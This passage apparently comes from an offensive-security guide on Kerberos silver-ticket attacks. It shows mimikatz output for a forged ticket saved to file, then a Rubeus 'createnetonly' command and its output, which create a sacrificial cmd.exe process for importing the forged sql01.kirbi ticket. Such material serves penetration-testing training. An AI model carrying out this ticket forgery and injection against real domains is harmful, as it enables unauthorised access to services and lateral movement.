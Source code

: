 	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Final Ticket Saved to file !

	mimikatz(commandline) # exit
	Bye!
	


![Mimikatz Silver](/Ticket-Abuse/Silver-Tickets/images/Mimikatz-Silver.png) 



## Create a Sacrificial Process


	PS C:\Tools> .\Rubeus.exe createnetonly /program:cmd.exe /show

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v2.2.2


	[*] Action: Create Process (/netonly)


	[*] Using random username and password.

	[*] Showing process : True
	[*] Username        : DSX7M0UK
	[*] Domain          : I0RSB6CS
	[*] Password        : B0ZIUHGY
	[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
	[+] ProcessID       : 5952
	[+] LUID            : 0x19983f


![Create Process Rubues](/Ticket-Abuse/Silver-Tickets/images/create-process-rubeus.png) 




This Rubeus action [createnetonly](https://github.com/GhostPack/Rubeus#createnetonly) and the flag **/show**, will open the program we specify for **/program:**, in this case, **cmd.exe**. That new window is our **sacrificial process**, as it doesn't have the creds of our current user. We will import the **sql01.kirbi ticket** we forged with mimikatz using this window as follows:


